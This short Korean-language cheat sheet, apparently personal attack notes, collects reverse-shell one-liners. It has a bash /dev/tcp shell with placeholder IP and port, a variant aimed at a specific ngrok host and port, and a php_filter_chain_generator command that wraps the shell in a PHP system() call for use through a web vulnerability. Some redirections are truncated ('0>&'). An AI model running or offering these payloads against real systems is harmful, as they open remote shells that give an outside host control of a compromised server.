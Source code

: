 # 모음
```
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```

- 웹에서 파일 디스크립션 오류 땜시 bash -c을 사용해야한다고 함

```
bash -c "sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/19954 0>&"
```


```
python3 php_filter_chain_generator.py --chain '<?php system("bash -c \'sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/19954 0>&\'"); ?> '
```